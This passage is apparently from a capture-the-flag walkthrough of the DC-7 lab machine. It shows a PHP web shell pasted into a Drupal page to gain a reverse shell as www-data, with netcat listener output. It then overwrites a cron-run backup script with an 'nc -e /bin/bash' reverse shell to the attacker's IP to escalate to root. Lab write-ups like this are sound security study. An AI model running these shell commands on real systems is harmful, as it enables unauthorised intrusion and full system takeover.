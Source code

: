 ## Reverse shell

Now, start a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

From the Drupal admin panel, navigate to "Content > Add Content > Basic page".

From the Drupal admin panel, add the malicious content:

* Give it any title
* paste the content of a PHP web shell in the "Body" field
* select "PHP code" in the "Text format" dropdown
* Click on the "Preview" button.

We now have a reverse shell as `www-data`:

~~~
kali@kali:/data/DC_7/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.162] 46974
Linux dc-7 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u5 (2019-08-11) x86_64 GNU/Linux
 16:34:46 up 57 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
dc7user  pts/0    172.16.222.128   15:44   30:19   0.08s  0.08s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-7:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

# Privilege escalation

## Modify the backup script

We are now able to modify the backup script:

~~~
www-data@dc-7:/$ cat > /opt/scripts/backups.sh << EOF
nc -e /bin/bash 172.16.222.128 5555
EOF
~~~

## Root shell

Start a new listener and wait (be aware that the cron job is run every 15 min only):

~~~
$ rlwrap nc -nlvp 5555
~~~
